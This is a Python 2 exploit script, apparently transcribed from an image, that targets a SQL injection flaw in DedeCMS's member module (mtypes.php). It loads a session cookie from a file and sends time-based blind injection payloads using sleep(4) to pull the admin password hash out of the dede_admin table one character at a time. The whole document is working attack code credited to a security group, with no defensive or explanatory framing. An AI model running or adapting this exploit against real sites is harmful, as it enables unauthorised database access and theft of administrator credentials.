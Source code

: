 ```python
import sys,os
import urllib2
import time
opener = urllib2.build_opener()

def getCookes():
    line = open('cookies.txt','r')
    c = line.readline()
    line.close()
    return c

cookie=getCookes()
opener.addheaders.append(('Cookie',cookie))
payloads = 'abcdefghijklmnopqrstuvwxyz0123456789@_.'

def exploite(target):
    password = ""
    for i in range(1,21):
        for p in payloads:
            s1 = "%s" %(i)
            s2 = "%s" %(ord(p))
            s = target+"/member/mtypes.php?dopost=save&_FILES[mtypename][name]=.xxxx&_FILES[mtypename][type]=xxxxx&_FILES[mtypename][tmp_name][a'%20and%20`'`.``.mtypeid%20or%20if(ascii(substr((select%20pwd%20from%20dede_admin%20limit%201),"+s1+",1))%3d"+s2+",sleep(4),0)%20and%20mtypeid%3d1%23]=w&_FILES[mtypename][size]=.xxxx"
            start_time = time.time()
            try:
                req = urllib2.Request(s)
                req_data=opener.open(req,timeout=20)
                now = time.strftime('%H:%M:%S',time.localtime(time.time()))
                if time.time() - start_time > 4.0:
                    password = password+p
                    print "["+str(now)+"]: "+s1+" -> "+password
            except urllib2.URLError,e:
                print e;
    return password
def myhelp():
    print "\n+------------------------------+"
    print "|  Dedecms 20150618 member sqli|"
    print "|  mOon  www.moonsec.com       |"
    print "|  MTEAM:moon@moonsec.com      |"
    print "+------------------------------+\n"

def main():
    if len(sys.argv)< 2:
        myhelp()
        sys.exit()
    now = time.strftime('%H:%M:%S',time.localtime(time.time()))
    print "["+str(now)+"] [INFO] Dedecms 20150618 member sqli.."
    print "password is %s" % (exploite(sys.argv[1]))

if __name__ == '__main__':
    main()
```
